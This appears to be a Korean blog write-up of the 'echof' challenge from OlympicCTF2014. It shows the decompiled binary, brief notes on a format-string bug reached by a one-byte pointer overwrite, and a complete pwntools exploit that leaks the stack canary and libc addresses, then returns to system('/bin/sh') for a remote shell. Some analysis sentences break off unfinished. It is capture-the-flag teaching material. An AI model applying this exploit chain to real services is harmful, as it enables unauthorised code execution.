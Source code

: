```yaml
---
layout: post
title: Writeup - echof (from OlympicCTF2014)
---
```

# echof

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  int *result; // eax
  int *v4; // eax
  signed int i; // [esp+30h] [ebp-110h]
  size_t v6; // [esp+34h] [ebp-10Ch]
  int *mm; // [esp+38h] [ebp-108h]
  char buf; // [esp+3Ch] [ebp-104h]
  unsigned int v9; // [esp+13Ch] [ebp-4h]

  v9 = __readgsdword(0x14u);
  puts("pw?");
  fflush(stdout);
  read(0, &buf, 8u);
  result = (int *)memcmp(&buf, "letmein\n", 8u);
  if ( !result )
  {
    for ( i = 0; i <= 15; ++i )
    {
      puts("msg?");
      fflush(stdout);
      bzero(&buf, 0x100u);
      read(0, &buf, 0x80u);
      v6 = strlen(&buf);
      if ( strchr(&buf, 'n') )
        return puts("i hate this symbol!");
      mm = (int *)mmap(0x11111000, 0x1000, 3, 50, -1, 0);
      if ( mm == (int *)-1 || !mm )
      {
        perror("mmap");
        exit(-1);
      }
      v4 = mm + 33;
      *v4 = 'ruoY';
      v4[1] = 'sem ';
      v4[2] = 'egas';
      v4[3] = 'd%( ';
      v4[4] = 'tyb ';
      v4[5] = ':)se';
      v4[6] = '\ns% ';
      *((_BYTE *)v4 + 28) = 0;
      mm[32] = (int)(mm + 33);
      strncpy((char *)mm, &buf, 0x80u);
      *((_BYTE *)mm + v6) = 0;
      sprintf(&buf, (const char *)mm[32], v6, mm);
      puts(&buf);
      fflush(stdout);
      result = (int *)munmap(mm, 0x1000u);
    }
  }
  return (int)result;
}
```
## 관찰
NX, ASLR, PIE, stack canary, full RELRO가 모두 걸려있는 바이너리이다.

buf를 0x80 바이트로 꽉꽉 채워 `mm[32]`의 least significant byte를 0으로 덮어씌우면 원래 `mm[33]`을 가리키던 주소가 `mm[0]`로 바뀌어 마음대로 FSB를 할 수 있게 된다. buf가 널널하므로 쉽게쉽게 FSB를 사용할 수 있다.

ROP를 하기 위해서
1.  libc system 함수와 /bin/sh string의 위치
2.  stack canary 값
을 알아야 한다.

1을 어
Full RELRO가 적용되어 있으므로 got overwrite가 불가능하다. 따라서 ROP를 사용하는데, 이를 위해서는 stack canary leak이 필요하다. FSB를 통해 쉽게 해결할 수 있는 부분이다.

PIE가 적용되어 있으므로 libc를

## 풀이
```python
from pwn import * 

#p = process("./echof")
p = remote("remote.goatskin.kr", 49281)
context.log_level = "debug"

# Step 1: leak code offset &
payload1 = "%80$x|%78$x|"
payload1 += (128 - len(payload1))*"A"

p.send("letmein\n")
p.send(payload1)
p.recvuntil("msg?\n")
p_ret_raw = p.recvuntil("|")[:-1]
canary_raw = p.recvuntil("|")[:-1]
p_ret = int(p_ret_raw, 16)
canary = int(canary_raw, 16)
base_code = p_ret - 0x840

log.info("canary: " + hex(canary))

# Step 2: read got w/ FSB
offset_got_lsm = 0x1FD8
payload2 = p32(base_code + offset_got_lsm) + "%14$s|"
payload2 += (128 - len(payload2))*"A"
p.send(payload2)
p.recvuntil("msg?\n")
p_lsm_raw = p.recvuntil("|")[4:8]
p_lsm = u32(p_lsm_raw)

p_system = p_lsm + 0x22c70
p_sh = p_lsm + 0x147133
log.info("p_lsm: " + hex(p_lsm))

# Step 3: bof

payload3 = "%256c" + "%78$c" + p32(canary)[1:]
payload3 += p32(p_system)*5 + p32(p_sh)
payload3 += (128 - len(payload3))*"A"
p.send(payload3)

context.log_level = "info"
p.interactive()
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTc3NTkzMTUwOCwtMTQwOTk0MjQxNiwtMj
EyODAzMjIzMl19
-->
